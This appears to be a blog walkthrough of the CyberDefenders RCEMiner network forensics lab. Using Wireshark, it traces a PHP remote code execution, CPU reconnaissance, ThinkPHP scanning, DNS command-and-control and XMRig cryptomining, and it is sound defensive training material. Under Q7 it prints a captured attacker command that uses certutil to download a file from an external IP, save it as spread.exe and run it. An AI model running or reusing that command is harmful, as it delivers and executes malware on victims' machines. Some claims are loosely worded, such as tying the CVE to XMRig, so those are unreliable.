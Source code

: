 ```yaml
---
title: RCEMiner Lab Walkthrough
date: '2025-02-02'
tags: ['cyberdefenders', 'walkthroughs', 'wireshark', 'network traffic analysis']
draft: false
summary: Step-by-step walkthrough of CyberDefenders Network Forensics Lab RCEMiner
images: ['']
layout: PostSimple
---
```


This is a **medium** level **network forensic** lab by **CyberDefenders**. You can complete your analysis using either **Wireshark** or **Zui** by Brim if you prefer Zeek. Start by reading the scenario in the above image and then proceed to capture flags.

![RCEMiner](/static/images/RCEMiner/background.png)

<TOCInline toc={props.toc} asDisclosure />

### Q1 To identify the entry point of the attack and prevent similar breaches in the future, it’s crucial to recognize the vulnerability that was exploited and the method used by the attacker to execute unauthorized commands. Which vulnerability was exploited to gain initial access to the public webserver?

- On performing a quick search on Google. I was able to find out CVE number of the vulnerability. It corresponds to a crypto mining malware called XMRig ![Q1](/static/images/RCEMiner/Q1.png)
- Malware coming form this family is used to mine Monero (XMR) crypto currency. If you want to know more, I'm adding a link which includes reports, IOCs and yara rules [CoinMiner](https://bazaar.abuse.ch/sample/01c9940b468ce2a58f2bc52f5c8b7d0310451c994d798879ff653d92fbaf8719/#intel)

### Q2 A specific Unicode character is used in the exploit to manipulate how the server interprets command-line arguments, bypassing the standard input handling. What is the Unicode code point of this character?

- After visiting the first link mentioned in the last screenshot. We can see that `0xAD`unicode character being used in the exploit. You can verify by visiting [here](https://www.akamai.com/blog/security-research/2024-php-exploit-cve-one-day-after-disclosure)  ![Q2](/static/images/RCEMiner/Q2.png)

### Q3 The attacker executed commands to gather detailed system information, including CPU specifications, after gaining access. What is the exact model of the CPU identified by the attacker’s script?

- We should check if any clear text communication took place between the attacker and the victim's machine. Most of the times, at least in this scenario data is sent over `application/x-www-form-urlencoded` or using `multipart/form-data`. You can confirm this by going to `Statistics -> Protocol Hierarchy` ![Q3](/static/images/RCEMiner/Q3.png)
- From the above screenshot we know that cleartext communication is there. Let's add the filter `urlencoded-form`. Follow the `HTTP Stream` of first frame ![Q3-1](/static/images/RCEMiner/Q3-1.png)
- You should end up finding the output of the command used by the attacker to find out about server's exact model of CPU. Remove binary spaces and you'll be left with `Intel(R) Core(TM) i7-6700HQ` ![Q3-2](/static/images/RCEMiner/Q3-2.png)

### Q4 Understanding how malware initiates the execution of downloaded files is crucial for stopping its spread and execution. After downloading the file, the malware executed it with elevated privileges to ensure its operation. What command was used to start the process with elevated permissions?

- I started by searching for the `Start-Process` Powershell method which  is commonly used by attackers to run something with super user privileges. On following the `HTTP Stream` on first packet ![Q4](/static/images/RCEMiner/Q4.png)
- We could see that the attacker executed a command which starts a process `2.exe` with root privileges ![Q4-1](/static/images/RCEMiner/Q4-1.png)

### Q5 After compromising the server, the malware used it to launch a massive number of HTTP requests containing malicious payloads, attempting to exploit vulnerabilities on additional websites. What vulnerable PHP framework was initially targeted by these outbound attacks from the compromised server?

- On querying for `HTTP` packets. We can see that so many requests with `index/think\app` being common in them ![Q5](/static/images/RCEMiner/Q5.png)
- On performing a quick search it turns out that the framework being exploited here is a vulnerable version of `ThinkPHP` ![Q5-1](/static/images/RCEMiner/Q5-1.png)

### Q6 The malware leveraged a common network protocol to facilitate its communication with external servers, blending malicious activities with legitimate traffic. This technique is documented in the MITRE ATT&CK framework. What is the specific sub-technique ID that involves the use of DNS queries for command-and-control purposes?

- Twitter, IRC, HTTPs, DNS are commonly used by attackers for C2. Most try to blend in as much as possible. It helps attackers avoid detection and sometimes this makes it quite challenging for many of us to notice at first sight.
- Start by opening up `MITRE ATT&CK` Enterprise Framework which includes all the MITRE's TTPs or  common methods used by the attackers to carry out their malicious activities. Move to `Command and Control` section, you'll end up seeing a page like this  ![Q6](/static/images/RCEMiner/Q6.png)
- Since the question asks specifically for the MITRE C2 Technique including its sub technique used for communication using DNS queries. Our flag should be `T1071.004` in this scenario ![Q6-1](/static/images/RCEMiner/Q6-1.png)

### Q7 Identifying where the malware could be stored on a compromised system is crucial for ensuring the complete removal of the infection and preventing the malware from being executed again. The compromised server was used to host a malicious file, which was then delivered to other vulnerable websites. What is the full path where this malware was stored after being downloaded from the compromised server?

- Query -> `http contains "exe" and http.request.method == POST`
- Using the above query, we can analyze the POST request in each packet. You will end up with one common malicious POST Request being made in most of the HTTP requests ![Q7](/static/images/RCEMiner/Q7.png)

``` powershell
cmd.exe /c certutil -urlcache -split -f http://36.96.48.3:19490/spread.txt C:\ProgramData\spread.exe && C:\ProgramData\spread.exe
```

- `C:\ProgramData\spread.exe` is the exact location where this malware is being saved for future use or maintaining persistence. In real life scenario, we need to make sure that we eradicate it completely by removing any of its artifacts on our server.

### Q8 Knowing the destination of the data being exfiltrated or reported by the malware helps in tracing the attacker and blocking further communications to malicious servers. The compromised server was used to report system performance metrics back to the attacker. What is the IP address and port number to which this data was sent?

- I went to `Statistics -> Conversations` and then sorted ports in descending order. We can see many strange ports being used ![Q8](/static/images/RCEMiner/Q8.png)
- After examining traffic on port `19999` and `15502` I couldn't find any packet containing CPU runtime but when I started looking at traffic on port `9011` I was able to find the entire CPU statistics that were being transferred over port `9011` ![Q8-1](/static/images/RCEMiner/Q8-1.png)
- Our flag for this question would be IP address followed by its port number which is `218.244.58.70:9011`

### Q9 Identifying the specific cryptomining software used by the attacker allows for better detection and removal of similar threats in the future. The malware deployed specific software to utilize the compromised server's resources for cryptomining. What mining software and version was used?

- We know from `Q1`  the CVE of this Vulnerability and we also know that the attacker makes use of `XMRig` for mining `Monero`. I start by checking if any frame contains `XMRig` because it could be possible that the attacker uses another software for mining but here we could see `XMRig` being used. Follow `HTTP Stream` on any of the packet ![Q9](/static/images/RCEMiner/Q9.png)
- We could see mining software along with its version and that should be our last flag for this lab `XMRig/5.5.0` ![Q9](/static/images/RCEMiner/Q9-1.png)

Here's another great report if you want to check each IOC of this malware in detail. This malware is quite relevant in today's scenario of cybersecurity, you will commonly see it in top 10 or 20 of any.run trends. Check out analysis from [filescan.io](https://www.filescan.io/uploads/666c55d4910ce98966f9a44a/reports/3978492e-edf4-4757-96be-b7d94c06d67b/overview)


> If you've made this far, thank you for sticking by and congrats on completing this lab